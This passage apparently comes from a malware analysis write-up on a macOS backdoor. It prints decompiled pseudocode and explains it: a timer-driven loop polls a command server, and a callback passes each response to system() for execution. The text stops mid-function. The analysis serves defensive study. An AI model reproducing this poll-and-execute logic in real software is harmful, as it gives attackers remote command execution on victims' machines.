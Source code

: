 {"sdf":"wsx","info":"Version 13.5.2 (Build 22G91)"
                        
                    





The block callback [ProcessRequest sendRequest]_block_invoke serves as the command executor if a response is received from the C2. The malware utilizes the system() function for command execution, inherently invoking sh -c. It logs the server response via NSLog for commands awaiting execution and records both successes and failures. The choice to log these activities is intriguing, as attackers crafting sophisticated malware typically omit any statements that might leave traces.






                        
                            void ___29-[ProcessRequest sendRequest]_block_invoke(void * _block, struct NSData * arg1, struct NSURLResponse * arg2, struct NSError * arg3) {
    rbx = arg3;
    r15 = [arg1 retain];
    if (rbx != 0x0) {
            NSLog(@"Error: %@", rbx);
    }
    else {
            NSLog(@"Response: %@", [[NSString alloc] initWithData:r15 encoding:0x4]);
            rax = objc_retainAutorelease(rax);
            r14 = rax;
            if (system([rax UTF8String]) != 0xffffffff) {
                    NSLog(@"Command executed successfully.\n");
            }
            else {
                    NSLog(@"Failed to execute command: %@\n", r14);
            }
            [r14 release];
    }
    [r15 release];
    return;
}
                        
                    





The main function of the program initializes an instance of the ProcessRequest class, then sets up a repeating timer using the startTimer method. This timer triggers the sendRequest method at regular intervals, facilitating periodic network requests. To ensure continuous operation, the NSRunLoop class is used, keeping the main thread active.






                        
                            int _main() {
    r14 = objc_autoreleasePoolPush();
    rax = objc_alloc_init(@class(ProcessRequest));
    r15 = rax;
    [rax startTimer];
    rax = [NSRunLoop currentRunLoop];
    rax = [rax retain];
    [rax run];
    [rax release];
    [r15 release];
    objc_autoreleasePoolPop(r14);
    return 0x0;
                        